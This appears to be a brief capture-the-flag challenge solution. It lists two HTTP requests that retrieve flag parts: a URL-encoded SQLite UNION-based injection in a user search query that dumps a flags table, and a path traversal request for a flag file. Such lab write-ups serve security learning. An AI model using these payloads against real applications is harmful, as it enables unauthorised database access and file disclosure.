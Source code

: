 # Solution

SQLite Injection & Path Traversal

- Get the first flag part:
GET /users/search?query=a'%20union%20all%20select%20group_concat(flag)%2c2%20from%20flags%3b--

- Get the second flag part:
GET /mail/../flag.txt
